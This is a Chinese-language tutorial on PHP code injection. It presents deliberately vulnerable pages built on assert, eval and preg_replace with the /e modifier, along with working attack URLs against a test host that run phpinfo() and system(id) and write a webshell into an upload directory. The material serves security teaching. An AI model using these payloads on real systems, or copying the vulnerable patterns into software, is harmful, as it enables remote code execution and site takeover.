






 

当应用在调用一些字符串转化为代码的函数时，没有考虑用户是否能控制这个字符串，将造成代码注入漏洞(代码执行漏洞)。

PHP      eval()、assert()、preg_replace()
python    exec()
Java     没有类似于前面两者的函数，但是有反射机制，并且有基于反射机制的表达式引擎，如：0GNL、SpEL、MVEL等

## 1、动态代码执行

```php
<?php
function m_print(){
	echo '这是一个页面';
}
$_GET['a']($_GET['b']);
?>
```

查看php信息

assert 可以执行php里面的一些函数比如phpinfo()

```http
http://www.webtester.com/code/code01.php?a=assert&b=phpinfo()
```

 

```http
http://www.webtester.com/code/code01.php?a=assert&b=system(id)
```

 

```http
http://www.webtester.com/code/code01.php?a=assert&b=var_dump(1)
```



## 2、eval代码执行

```php
<?php  
$data = isset($_GET['data'])?$_GET['data']:'这是一个eval漏洞页面';  
@eval($ret = $data);  
echo $ret;
?>
```

eval可以执行php代码

```http
http://www.webtester.com/code/code02.php?data=phpinfo();
http://www.webtester.com/code/code02.php?data=system(id);
```

 

写入webshell

```http
http://www.webtester.com/code/code02.php?data=fputs(fopen("../upload/getshell.php","a"),"<?php phpinfo();?>");
```

访问

```http
http://www.webtester.com/upload/getshell.php
```

 

## 3、正则代码执行

```php
<?php  
$data = $_GET['data'];  
preg_replace('/<data>(.*)<\/data>/e','$ret = "\\1";',$data);  
?>
```

```html
<form>
<label>请输入你的数据</label>
<input type='text' name='data'/>
<input type='submit' value='提交'/>
</form>
```

<data>{${phpinfo()}}</data>

```
http://www.webtester.com/code/code03.php?data=<data>{${phpinfo()}}</data>
```

 